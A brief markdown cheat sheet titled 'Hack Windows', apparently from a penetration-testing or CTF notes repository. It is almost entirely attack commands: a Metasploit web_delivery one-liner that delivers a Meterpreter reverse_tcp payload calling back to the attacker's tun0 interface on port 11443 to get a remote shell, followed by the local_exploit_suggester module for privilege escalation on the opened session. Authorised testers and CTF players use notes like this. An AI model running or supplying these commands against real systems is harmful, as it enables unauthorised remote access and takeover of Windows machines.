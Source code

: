 # Hack Windows

## Get Shell
```bash
msfconsole -q -x "use exploit/multi/script/web_delivery ; set payload windows/x64/meterpreter/reverse_tcp ; set LHOST tun0 ; set LPORT 11443 ; set target 2 ; exploit -j"
```

## Privilege Escalation
```bash
use multi/recon/local_exploit_suggester
set session 1
run
```
